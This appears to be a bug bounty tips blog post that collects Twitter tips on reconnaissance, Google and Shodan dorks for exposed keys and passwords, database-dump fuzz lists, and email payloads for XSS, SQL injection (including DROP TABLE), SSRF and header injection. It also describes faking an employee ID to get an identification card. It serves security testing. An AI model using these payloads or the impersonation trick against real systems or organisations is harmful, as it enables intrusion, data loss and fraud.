



# Bug Bounty Tips #2

This is another dose of [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/) from the bug hunting community on Twitter, sharing knowledge for all of us to help us find more vulnerabilities and collect bug bounties.

This is the 2nd part and in each part we are publishing 10 or more tips. Here we go..

## 1\. Find subdomains with SecurityTrails API

By [@IfrahIman\_](https://twitter.com/IfrahIman_)  
Source: [link](https://twitter.com/IfrahIman_/status/1274513935039967233)

Want to find some new subdomains for your target? Use this handy one-liner with SecurityTrails API to enumerate:

```bash
curl -s --request GET --url https://api.securitytrails.com/v1/domain/target.com/subdomains?apikey=API_KEY | jq '.subdomains[]' | sed 's/\"//g' >test.txt 2>/dev/null && sed "s/$/.target.com/" test.txt | sed 's/ //g' && rm test.txt
```



Note that for this to work, we need a SecurityTrails API key. We can get a free account which comes with 50 API queries per month (at the time of writing of this post). See [here](https://securitytrails.com/corp/pricing#api) for other options.

## 2\. Access hidden sign-up pages

By [@thibeault\_chenu](https://twitter.com/thibeault_chenu)  
Source: [link](https://twitter.com/thibeault_chenu/status/1273987874430554112)

Sometimes, developers think that hiding a button is enough. Try accessing the following sign-up URIs:

|     |     |
| --- | --- |
| **Sign-up URI** | **CMS platform** |
| /register | Laravel |
| /user/register | Drupal |
| /wp-login.php?action=register | WordPress |
| /register | eZ Publish |

Chances are that we will be able to register a new user and access privileged areas of the web application, or at least get a foothold into it.

## 3\. Top 5 bug bounty Google dorks

By [@JacksonHHax](https://twitter.com/JacksonHHax)  
Source: [link](https://twitter.com/JacksonHHax/status/1273959927321509890)

Here are Top 5 Google dorks for identifying interesting and potentially sensitive information about our target:

```bash
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
```

With these dorks we are looking for open directory listing, log files, private keys, spreadsheets, database files and other interesting data.

Pro tip: While you are at it, have a look also on the [Google Hacking Database](https://www.exploit-db.com/google-hacking-database) (on [exploit-db.com](https://www.exploit-db.com/)) to find even more dorks!

## 4\. Find hidden pages on Drupal

By [@adrien\_jeanneau](https://twitter.com/adrien_jeanneau/status/1273952564430725123)  
Source: [link](https://twitter.com/adrien_jeanneau/status/1273952564430725123)

If you are hunting on a Drupal website, fuzz with Burp Suite Intruder (or any other similar tool) on ‘/node/$’ where ‘$’ is a number (from 1 to 500). For example:

-   https://target.com/node/1
-   https://target.com/node/2
-   https://target.com/node/3
-   …
-   https://target.com/node/499
-   https://target.com/node/500

Chances are that we will find hidden pages (test, dev) which are not referenced by the search engines.

## 5\. Find sensitive information with gf

By [@dwisiswant0](https://twitter.com/dwisiswant0)  
Source: [link](https://twitter.com/dwisiswant0/status/1276402773039304704)

Find sensitive information disclosure using special [gf-secrets](https://github.com/dwisiswant0/gf-secrets) patterns collected by [@dwisiswant0](https://twitter.com/dwisiswant0). Here’s how to use them:

```bash
# Search for testing point with gau and fff
gau target -subs | cut -d"?" -f1 | grep -E "\.js+(?:on|)$" | tee urls.txt
sort -u urls.txt | fff -s 200 -o out/

# After we save responses from known URLs, it's time to dig for secrets
for i in `gf -list`; do [[ ${i} =~ "_secrets"* ]] && gf ${i}; done
```

In order for this combo to work, we have to install following additional tools, very useful not just for bug bounty hunting:

-   [https://github.com/lc/gau](https://github.com/lc/gau)
-   [https://github.com/tomnomnom/fff](https://github.com/tomnomnom/fff)
-   [https://github.com/tomnomnom/gf](https://github.com/tomnomnom/gf)
-   The patterns: [https://github.com/dwisiswant0/gf-secrets](https://github.com/dwisiswant0/gf-secrets)

## 6\. Find Spring Boot servers with Shodan

By [@sw33tLie](https://twitter.com/sw33tLie)  
Source: [link](https://twitter.com/sw33tLie/status/1276266817053392900)

Search for the following favicon hash in [Shodan](https://www.shodan.io/) to find Spring Boot servers deployed in the target organization:

```bash
org:YOUR_TARGET http.favicon.hash:116323821
```

Then check for exposed actuators. If /env is available, you can probably achieve RCE. If /heapdump is accessible, you may find private keys and tokens.

In case you are unfamiliar with Spring Boot technology, do not worry. Here’s a quick 101.

[Spring Boot](https://spring.io/guides/gs/spring-boot/) is an open source Java-based framework used to build stand-alone spring applications based on the concepts of micro services.

[Spring Boot Actuator](https://spring.io/guides/gs/actuator-service/) is a mechanism of interacting with them using a web interface. They are typically mapped to URL such as:

-   https://target.com/env
-   https://target.com/heapdump
-   etc.

Here’s an example of exposed /env actuator:



Pro tip: Check for all [these](https://docs.spring.io/spring-boot/docs/current/reference/htmlsingle/#production-ready-endpoints-exposing-endpoints) default built-in actuators. Some of them may be exposed and contain interesting information.

## 7\. Forgotten database dumps

By [@TobiunddasMoe](https://twitter.com/TobiunddasMoe)  
Source: [link](https://twitter.com/TobiunddasMoe/status/1276217343073370113)

Here’s a quick tip to find forgotten database dumps using this small but quick fuzz list:

```bash
/back.sql
/backup.sql
/accounts.sql
/backups.sql
/clients.sql
/customers.sql
/data.sql
/database.sql
/database.sqlite
/users.sql
/db.sql
/db.sqlite
/db_backup.sql
/dbase.sql
/dbdump.sql
setup.sql
sqldump.sql
/dump.sql
/mysql.sql
/sql.sql
/temp.sql
```

Old database dumps may contain all kinds of interesting information – user credentials, configuration settings, secrets and api keys, customer data and more.

## 8\. E-mail address payloads

By [@securinti](https://twitter.com/securinti) (compiled by [@intigriti](https://twitter.com/intigriti))  
Source: [link](https://twitter.com/intigriti/status/1272860780694843392)

The following payloads are all valid e-mail addresses that we can use for pentesting of not only web based e-mail systems.

XSS (Cross-Site Scripting):

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

Template injection:

```bash
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
```

SQL injection:

```bash
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

SSRF (Server-Side Request Forgery):

```bash
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

Parameter pollution:

```bash
victim&email=attacker@example.com
```

(Email) header injection:

```bash
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

This is pure gold!

## 9\. From employee offers to ID card

By [@silentbronco](https://twitter.com/silentbronco)  
Source: [link](https://twitter.com/silentbronco/status/1276941262843637761)

Registering as an Employee leads to claim of Employee Only Private Offers and ultimately getting an “Identification Card”.

Here’s what [@silentbronco](https://twitter.com/silentbronco) did exactly:

1.  Searched for **Target**‘s employee offers on Google:
    
    ```bash
    inurl:"Target Name" employee offers
    ```
    
2.  Found website which provides offers to the **Target**.
3.  Found that offers were restricted to employees only.
4.  Tried registering with random numbers in the “**Employee ID**” field
5.  Successfully registered as an employee because of no verification of the “**Employee ID**“.
6.  Registering as an employee leads to claim of private offers.
7.  The website also provides an “**Identification Card**” which can be used to show that we are a legitimate employee of the **Target**.

Next time when you are struggling with getting a foothold into an organization, try looking for their employee offers like [@silentbronco](https://twitter.com/silentbronco).

## 10\. Find RocketMQ consoles with Shodan

By [@debangshu\_kundu](https://twitter.com/debangshu_kundu)  
Source: [link](https://twitter.com/debangshu_kundu/status/1276434960241397761)

Here’s another small [Shodan](https://www.shodan.io/) dork, this time to pull up RocketMQ console which often has quite confidential production information disclosed:

```bash
org:target.com http.title:rocketmq-console
```

From the exposed RocketMQ consoles we can for example find out:

-   Additional hostnames and subdomains
-   Internal IP addresses
-   Log file locations
-   Version details
-   etc.

Here’s an example of exposed RocketMQ:



## 11\. HTTP Accept header modification

By [@jae\_hak99](https://twitter.com/jae_hak99)  
Source: [link](https://twitter.com/jae_hak99/status/1277222157366358017)

Here’s a tip to find information disclosure vulnerabilities in some web servers by changing the Accept header:

```bash
Accept: application/json, text/javascript, */*; q=0.01 
```

Some vulnerable web servers may reveal server version information, stack and route information.

## Conclusion

That’s it for this part of the [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/).

Big thanks to all the authors:

-   [@IfrahIman\_](https://twitter.com/IfrahIman_)
-   [@thibeault\_chenu](https://twitter.com/thibeault_chenu)
-   [@JacksonHHax](https://twitter.com/JacksonHHax)
-   [@adrien\_jeanneau](https://twitter.com/adrien_jeanneau/status/1273952564430725123)
-   [@dwisiswant0](https://twitter.com/dwisiswant0)
-   [@sw33tLie](https://twitter.com/sw33tLie)
-   [@TobiunddasMoe](https://twitter.com/TobiunddasMoe)
-   [@securinti](https://twitter.com/securinti)
-   [@intigriti](https://twitter.com/intigriti)
-   [@silentbronco](https://twitter.com/silentbronco)
-   [@debangshu\_kundu](https://twitter.com/debangshu_kundu)
-   [@jae\_hak99](https://twitter.com/jae_hak99)

Make sure to follow them on Twitter to stay ahead of the bug bounty game.
